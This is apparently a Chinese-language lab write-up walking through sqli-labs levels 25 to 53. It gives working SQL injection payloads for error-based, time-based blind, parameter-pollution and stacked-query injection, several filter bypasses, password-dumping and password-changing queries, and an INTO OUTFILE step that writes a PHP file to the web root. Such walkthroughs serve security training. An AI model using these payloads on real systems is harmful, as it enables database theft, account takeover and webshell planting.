​    **2.  编码，hex，urlencode**

​    **3. 添加注释**/!00000or/

​    **4. 利用符号 && ||**

这里用第3种方法进行：?id=-1' /!00000or/extractvalue(1,concat(0x7e,user(),0x7e))%23



## Less-25a   Trick with OR & AND (过滤了or和and的无闭合数字型注入)



 这关跟25关相似，是数值型注入，并且**没有报错**，那么我们可以使用**联合注入**与**延时注入**即可。

## Less-26（过滤or,and，注释符等的报错注入）  

单引号报错，双引号括号都不报错，因该是单引号闭合

```php
function blacklist($id)
{
  $id= preg_replace('/or/i',"", $id);          //strip out OR (non case sensitive)
  $id= preg_replace('/and/i',"", $id);      //Strip out AND (non case sensitive)
  $id= preg_replace('/[\/\*]/',"", $id);    //strip out /*
  $id= preg_replace('/[--]/',"", $id);      //Strip out --
  $id= preg_replace('/[#]/',"", $id);          //Strip out #
  $id= preg_replace('/[\s]/',"", $id);      //Strip out spaces
  $id= preg_replace('/[\/\\\\]/',"", $id);      //Strip out slashes
  return $id;
}
```

对or,and,注释符，空格，反斜杠等都进行了过滤，preg_replace()方法是非递归的，因此and与or可以双写绕过，但是注释符怎么办呢？当然是选个不用注释的方式咯，方式参考23关，直接构造前后闭合即可

```php
?id=1'  ' 构造前后闭合
```

再就是空格

对于绕过空格有较多的方法：

```php
%09 TAB 键（水平）
%0a 新建一行
%0c 新的一页
%0d return 功能
%0b TAB 键（垂直）
%a0 空格
()替代空格
```

然鹅这几种方法都在window上翻车了，都被过滤掉了，若有大佬知情，麻烦赐教本菜鸡。听说在linux可行，但我还没试过。所以在这里就不用这种方法绕过，试了一下可以用报错注入：

```php
?id=-1'oorr(updatexml(1,concat(0x7e,database()),1));%00
?id=1'||(updatexml(1,concat(0x7e,database()),1))||'
?id=1'|(updatexml(1,concat(0x7e,database()),1))|'
都可以  
```

## Less-26a（同25关，关闭报错，时间盲注）

 这关与26关的区别是，字符串是以(’’)的方式进行闭合的，且**不显示报错信息**，那就用延时注入：
**?id=-1’(union(if(left(database(),1)>‘a’,sleep(5),1)))||’**  

## Less-27 （过滤了union和select其余同26关的单引号闭合注入）

本关多了对select、union关键字的过滤，用**大小写混用**表示select、union，利用报错注入，这里爆出表：

```php
?id=-1' || extractvalue(1,concat('',(sElect(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),''))||'
```

## Less-27a

本关与27关的区别是用了""闭合字符串，且没有报错回显，故可利用**延时注入**：

```php
 ?id=-1"(uNion(if(left(database(),1)>'a',sleep(5),1)))||"  
```

## Less-28(')闭合)

很奇怪，这关对%0a没过滤掉，也就是这关咱们可以用%0a代替空格，这下舒服多了。看了题目，这关应该是**')**的闭合方式，再查看源码，发现对select、union的过滤方式是联合在一起：

```php
$id= preg_replace('/union\s+select/i',"", $id);	    //Strip out UNION & SELECT.
```

直接上payload:

```php
?id=-1')%0a union(select %0a 1,2,3 )||('1
```

## Less-28a(说是盲注，其实有回显，简单不提)

## Less-29（HTTP参数污染）

具体可以看我[1、 SQL注入总结](https://www.yuque.com/uf9n1x/websec/cz92kq#9bc35c24)那篇里面的HTTP参数污染原理解析，没什么问题

payload:

```php
 Less-29/?id=1&id=-2'union select 1,2,(select group_concat(username,'-',password) from users)–+  
```

## Less-30

这关与less-29没啥区别，就多了"$id"闭合方式，**没有报错回显**

```php
Less-30/?id=1&id=-2" union select 1,2,(select group_concat(username,0x7e,password) from users)–+
```

## Less-31

这关也一样，多了("$id")闭合方式，**增加报错回显**，直接上payload：

```php
Less-31/?id=1&id=-2)" union select 1,2,(select group_concat(username,0x7e,password) from users)–+
```

## Less-32~37（都与addslashes这类函数相关，可以选择宽字节注入）

 关于魔术引号、addslashes的防御以及绕过参考此文章：[魔术引号、addslashes和mysql_real_escape_string的防御以及绕过_罹殇的技术博客_51CTO博客](https://blog.51cto.com/wt7315/1931667)

## Less-38 stacked Query（堆叠注）

详细的堆叠注入见[1、 SQL注入总结](https://www.yuque.com/uf9n1x/websec/cz92kq#9bc35c24)

我们正常查询，因为是堆叠注入，那么我们使用分号，来执行两条命令，我们修改dumb的密码试试



使用单引号将1闭合



查看结果，修改成功



```php
$sql="SELECT * FROM users WHERE id='1';update users set password='12345' where username='Dumb' ;--+' LIMIT 0,1";
```


## Less-39 stacked Query Intiger type（数字型无闭合，其余同上关）

$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";

## Less-40 stacked Query String type Blind（关闭报错的堆叠注入）

**这关关闭了报错，但是可以根据页面是否有内容来判断，语句是否正确**

## Less-41 stacked Query Intiger type blind（关闭报错的数字型无闭合堆叠注入）

**本关是无报错，其余同39关一样**

## Less-42 - Stacked Query error based

```php
$username = mysqli_real_escape_string($con1, $_POST["login_user"]);
 $password = $_POST["login_password"];
```

我们堆叠注入修改admin的密码



## less43 POST -Error based -String -Stacked with tiwst(POST型基于错误的堆叠变形字符型注入')闭合)

本关是一个登录页面，对密码处没有过滤，那么我们对密码处进行堆叠注入

## Less-44 - Stacked Query blind

同less-42关，只是关闭了报错

## less-45 (基于报错的password处的')闭合注入)

同less-43关，只是关闭了报错

## less-46 ORDER BY-Error-Numeric(排序处的报错注入)

我们按照他的规则，输入试试，发现是一个排序的表格


输如单引号也发现存在报错，那么我们肯定可以报错注入

既然是排序的表格，order by 后面虽然不能进行奇奇怪怪的union注入，但是可以进行desc/asc进行排序

那么我们可以尝试报错注入

```php
Less-46/?sort=(extractvalue(1,concat(0x7e,(select user()),0x7e)))#
```

还可以使用时间注入、写入文件等

```php
?sort=1 into outfile "D:\\phpStudy\\WWW\\sqli-labs\\Less-46\\111.php" lines terminated by 0x3c3f70687020706870696e666f28293b3f3e2020--+
```

我们使用十六进制来替代

```
<?php phphinfo();?>
```



## Less-47 - ORDER BY Clause-Error-Single quote

这里的id增添了单引号而已，其余和46关一致

## Less-48 - ORDER BY Clause Blind based

同46关，只不过关闭了报错，无法使用报错注入

## Less49 - ORDER BY Clause Blind based

同47，关闭了报错，无法使用报错注入

## Less50 - ORDER BY Clause Blind based

对比46关，源码存在if (mysqli_multi_query($con1, $sql))说明我们可以进行堆叠注入

## Less-51 - ORDER BY Clause Blind based

对比47关，多了if (mysqli_multi_query($con1, $sql))

## Less-52 - ORDER BY Clause Blind based

同50关，关闭了报错，采用报错注入以外的手段

## Less-53 - ORDER BY Clause Blind based

同51关，关闭了报错，采用报错注入以外的手段

## page4(54~75关，没有额外知识点了，都是一些挑战关卡，以后有兴趣了，再做一下记录吧)

## 本篇暂时完结······